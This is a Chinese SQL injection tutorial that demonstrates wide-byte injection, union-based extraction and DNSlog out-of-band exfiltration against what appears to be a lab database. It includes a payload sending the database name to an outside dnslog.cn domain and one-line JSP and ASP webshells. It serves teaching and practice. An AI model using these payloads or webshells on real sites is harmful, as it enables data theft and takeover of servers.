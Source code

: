 
#### 实例演示：
1、在id传参之后加个单引号，我设置了将传参输出出来，可以看到单引号前面加了一个反斜线。
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612316688943-fc742097-f3f9-40f1-b326-a4dd94d9691f.png#align=left&display=inline&height=217&margin=%5Bobject%2Object%5D&name=image.png&originHeight=435&originWidth=554&size=138295&status=done&style=none&width=277)
2、通过宽字节注入将反斜线“吃”掉，合成一个汉字，这里因为浏览器设置的字符为UTF-8，所以输出的汉字为�。通过页面报错可以判断出，单引号已成功闭合。
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612316696285-c4740da5-d4f3-4e5e-b82e-a102fbba775d.png#align=left&display=inline&height=232&margin=%5Bobject%2Object%5D&name=image.png&originHeight=463&originWidth=554&size=157491&status=done&style=none&width=277)
3、接下来通过order by判断数据库当前字段数，因为order by 4的时候页面报错了，所以当前字段数为3。
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612316701085-c5629ba1-eecd-4178-b782-2c8d1e94f979.png#align=left&display=inline&height=149&margin=%5Bobject%2Object%5D&name=image.png&originHeight=298&originWidth=554&size=111411&status=done&style=none&width=277)
4、通过union select 判断出注入点为2和3。
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612316704781-2eaf1548-62d5-40ca-88a4-14d15e5d6846.png#align=left&display=inline&height=158&margin=%5Bobject%2Object%5D&name=image.png&originHeight=315&originWidth=554&size=114990&status=done&style=none&width=277)
5、通过注入点3获取flag数据表中的flag字段的数据。
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612316709078-a312c8bf-4c31-4804-8a5f-8d9d9f550a58.png#align=left&display=inline&height=142&margin=%5Bobject%2Object%5D&name=image.png&originHeight=284&originWidth=554&size=110536&status=done&style=none&width=277)
## 巧用dnslog进行SQL注入
前面介绍了SQL注入中的盲注，通过布尔盲注或者延时盲注来获取数据需要的步骤非常繁琐，不仅需要一个一个字符的获取，最后还需要进行ascii解码，这需要花费大量的时间与精力。为了加快渗透进程，以及降低获取数据的难度，这里介绍如何通过dnslog进行SQL注入。
### Dnslog
dnslog，即dns日志，会解析访问dns服务的记录并显示出来，常被用来测试漏洞是否存在以及无法获取数据的时候进行外带数据。简单来说，dnslog就是一个服务器，会记录所有访问它的记录，包括访问的域名、访问的IP以及时间。那么我们就可以通过子查询，拼接dnslog的域名，最后通过dns日志得到需要的数据。
### Load_file()函数
数据库中的load_file()函数，可以加载服务器中的内容。load_file('c:/1.txt')，读取文件并返回内容为字符串，使用load_file()函数获取数据需要有以下几个条件：
1.文件在服务器上
2.指定完整路径的文件
3.必须有FILE权限
### UNC路径
UNC路径就是类似\softer这样的形式的网络路径。它符合 \服务器名\服务器资源的格式。在Windows系统中常用于共享文件。如\192.168.1.1\共享文件夹名。
### Dnslog注入实例演示
1、打开实例站点，很明显这里是只能使用盲注的站点。
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612316770534-feb5fdac-7aaa-4ab5-b3ae-5fee2527e378.png#align=left&display=inline&height=137&margin=%5Bobject%2Object%5D&name=image.png&originHeight=273&originWidth=554&size=93920&status=done&style=none&width=277)
2、通过order by判断出字段数为3。
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612316780268-de0c44d2-5a42-4df4-8494-a5ed756a6a74.png#align=left&display=inline&height=159&margin=%5Bobject%2Object%5D&name=image.png&originHeight=318&originWidth=554&size=123643&status=done&style=none&width=277)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612316786769-374898f3-3106-480a-a051-e052e96a70d9.png#align=left&display=inline&height=153&margin=%5Bobject%2Object%5D&name=image.png&originHeight=305&originWidth=554&size=116956&status=done&style=none&width=277)
3、在dnslog网站申请一个dnslog域名：pcijrt.dnslog.cn
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612316791333-e038d4ba-3515-4425-a67c-dd7c505975a8.png#align=left&display=inline&height=111&margin=%5Bobject%2Object%5D&name=image.png&originHeight=221&originWidth=554&size=32567&status=done&style=none&width=277)
4、通过load_file函数拼接查询数据库库名的子查询到dnslog的域名上，后面任意接一个不存在的文件夹名。最后将这个查询放到联合查询中，构造的payload如下：
?id=1 ' union select 1,2,load_file(concat('//',(select database()),'.pcijrt.dnslog.cn
/abc')) %23
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612316796222-379b515f-d134-405f-91cf-d1e33861c093.png#align=left&display=inline&height=96&margin=%5Bobject%2Object%5D&name=image.png&originHeight=192&originWidth=554&size=90883&status=done&style=none&width=277)
5、执行语句之后在dnslog日志中获取到数据库库名为security。
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612316800618-e7303cd5-9bdb-47de-aeda-5ced9575829d.png#align=left&display=inline&height=112&margin=%5Bobject%2Object%5D&name=image.png&originHeight=224&originWidth=554&size=38670&status=done&style=none&width=277)
6、修改子查询里的内容，获取其他数据。
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612316804136-4715642b-040c-4f5a-8e0c-29d883c01903.png#align=left&display=inline&height=123&margin=%5Bobject%2Object%5D&name=image.png&originHeight=246&originWidth=554&size=92826&status=done&style=none&width=277)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1612316855097-fc68b2f4-3483-4996-818a-3890d70aa7ac.png#align=left&display=inline&height=111&margin=%5Bobject%2Object%5D&name=image.png&originHeight=221&originWidth=554&size=46229&status=done&style=none&width=277)
## SQL注入写入webshell
### Webshell
Webshell，以asp、php、jsp或者cgi等网页文件形式存在的一种代码执行环境，也可以将其称做为一种网页后门。攻击者可以通过获取webshell来对网站进行操作，包括任意文件上传下载、查看数据库、执行任意程序代码等。常见webshell分类如下：
**jsp**
<%Runtime.getRuntime().exec(request.getParameter("i"));%>
**asp**
success!!!!<%eval request("cmd")%>
